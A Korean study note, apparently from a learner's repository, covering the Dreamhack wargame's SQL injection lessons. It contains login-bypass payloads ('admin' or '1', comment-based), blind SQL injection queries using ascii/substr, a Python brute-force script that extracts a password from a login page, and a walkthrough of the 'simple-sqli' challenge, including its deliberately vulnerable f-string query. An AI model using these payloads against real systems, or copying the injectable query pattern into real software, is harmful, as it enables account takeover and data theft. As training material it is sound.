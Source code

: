 # Dreamhack SQL Injection

# Simple SQL Injection
SQL Injection 공격을 할때에 중요한 것은 이용자의 입력값이 SQL 구문으로 해석될 수 있도록 해야하는데, 이용자의 입력값을 나타내기에 `'` 따옴표를 사용하여 사용자의 입력값이 SQL 구문으로 해석되도록한다
```
SELECT * FROM user_table WHERE uid='admin' or '1' and upw='';
```
위 코드에서 실제로 이용자가 입력한 값은 uid에 `admin' or '1`이다
이렇게 하면 SQL Injection 공격을 할 수 있는데, 조건식을 이용하여 로그인을 하는 것이다
첫번째는 uid가 admin 인 데이터, 두번째 조건은 이전식의 참이고, upw가 없는 경우이다. 첫번째 조건은 admin의 결과를 반환, 두번째 조건은 아무런 결과를 반환하지 않는다. 즉, uid가 admin인 데이터를 반환하리 때문에 관리자 계정으로 로그인이 가능한 것이다. 이외에도 아래 코드와 같이 주석처리된 방법으로도 SQL Injection 공격을 할 수 있다.
```
SELECT * FROM user_table WHERE uid='admin'-- ' and upw='';
```

# Blind SQL Injection
마치 스무고개를 하는 것과 비슷하다. 앞서 봤던 Simple SQL Injection은 이용자가 직접 화면에서 확인할 수 있지만 Blind SQL Injection은 데이터베이스와 답변이 가능한 형태로 질문을하며 참/거짓 반환 결과로 데이터를 획득하여 공격하는 기법을 사용한다
### ascii 
전달된 문자를 아스키 형태로 변환하는 함수, ascii('a') 를 실행하면 'a' 문자의 아스키 코드인 97을 반환한다

### substr
substr 함수는 문자열에서 지정한 위치부터 길이까지의 값을 가져온다.
```
substr(string, position, length)
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```

### Blind SQL Injection Exploit Query
```
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True
# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True
```

이 공격은 한바이트씩 비교하여 공격하는 방식이라서 다른 공격에 비해 많은 시간이 소요된다. 이러한 문제를 해결하기 위해 자동화된 스크립트를 작성한다
python에서의 requests 모듈을 사용하여 GET 방식과 POST 방식에서 사용될 수 있는 스크립트 파일을 만들어 요청을 전송하면 된다.
```python
# GET 
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)

# POST
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)

# 공격 스크립트

#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
tc = string.ascii_letters + string.digits + string.punctuation
# 사용할 SQL Injection 쿼리
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```

# simple-sqli (Exercise)
SQL Injection 취약점이 존재하는 워게임이다.
이번 문제의 코드를 보아하니 SQLite를 이용해 데이터베이스를 구성하고 있는 것으로 보이고, 역시 관리자 계정(admin) 계정으로 로그인하면 flag 값을 보여주는 것으로 확인된다.

```python
DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()
```
위 데이터베이스 스키마를 통해서 관리를 하고 있는것 같다. 아래의 표같은 구조를 하고 있음을 예상할 수 있다
|userid|userpassword|
|:--:|:--|
|guest|guest|
|admin|램던16바이트 Hex 형태의 표현(32byte)|

아래의 코드는 익스플로잇을 할 /login 엔드포인트에 대한 코드이다
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
```
중점적으로 봐야할 것은 `res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')`이 쿼리문 이다
userid=admin이 들어가야할 것이고, userpassword에 비밀번호를 넣어야하는데 SQL Injection 기법을 활용하여 공격한다면, 많은 방법이 가능할 거같은데 일단 가장 기본적인 두가지 방법만 활용해서 진행하였다.

```
# 첫번째 방법 -> userid 검색 조건만 처리하도록 뒤 내용을 주석처리하는 방식
admin"--
zzz

# 두번재 방법 -> userid 검색 조건 뒤에 or 조건을 추가하여 뒷 내용이 거짓이라도 최종적으로 참을 반환하는 방식
admin" or "1
123123

```
